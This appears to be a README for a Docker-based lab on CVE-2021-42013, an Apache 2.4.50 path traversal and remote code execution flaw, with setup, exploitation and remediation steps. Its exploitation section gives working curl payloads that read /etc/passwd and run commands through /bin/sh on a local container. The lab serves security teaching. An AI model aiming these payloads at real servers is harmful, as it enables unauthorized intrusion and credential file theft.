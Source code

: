 CVE-2021-42013 Lab: Apache HTTP Server Path Traversal and Remote Code Execution
Overview

This lab provides a hands-on environment to understand and exploit the CVE-2021-42013 vulnerability in Apache HTTP Server 2.4.50. The vulnerability allows attackers to perform path traversal and potentially achieve remote code execution (RCE) under specific configurations.
Lab Components

    Exploit Script: A Python script to demonstrate the vulnerability.

    Remediation Script: A Bash script to patch the vulnerability.

    Dockerfile: Sets up a vulnerable Apache HTTP Server environment.

    README: Instructions for setting up and running the lab.

Setup Instructions
Prerequisites

    Docker installed on your system.

    Git installed to clone the repository.

Steps

    Clone the Repository

git clone https://github.com/yourusername/CVE-2021-42013-Lab.git
cd CVE-2021-42013-Lab

Build the Docker Image

docker build -t cve-2021-42013-lab .

Run the Docker Container

    docker run -dit -p 8080:80 --name apache-vuln cve-2021-42013-lab

    The vulnerable Apache server will be accessible at http://localhost:8080.

Exploitation
Path Traversal

To read the /etc/passwd file:

curl "http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd"

Remote Code Execution (RCE)

To execute a command (e.g., id):

curl "http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; id"

Note: The above payloads exploit the path traversal to access sensitive files and execute commands.
Remediation

To patch the vulnerability:

    Stop and Remove the Vulnerable Container

docker stop apache-vuln
docker rm apache-vuln

Build a Patched Docker Image

docker build -t apache-patched -f Dockerfile.patched .

Run the Patched Container

    docker run -dit -p 8080:80 --name apache-secure apache-patched

    The patched Apache server will be accessible at http://localhost:8080.

Files Included

    Dockerfile: Sets up Apache HTTP Server 2.4.50 with vulnerable configurations.

    Dockerfile.patched: Sets up Apache HTTP Server 2.4.51 with secure configurations.

    exploit.py: Python script demonstrating the exploit.

    remediate.sh: Bash script to patch the vulnerability.

    README.md: This instruction file.

References

    NVD - CVE-2021-42013

    Apache HTTP Server Security Advisories

    Exploit-DB Entry

This lab is intended for educational purposes only. Always ensure you have proper authorization before testing systems for vulnerabilities.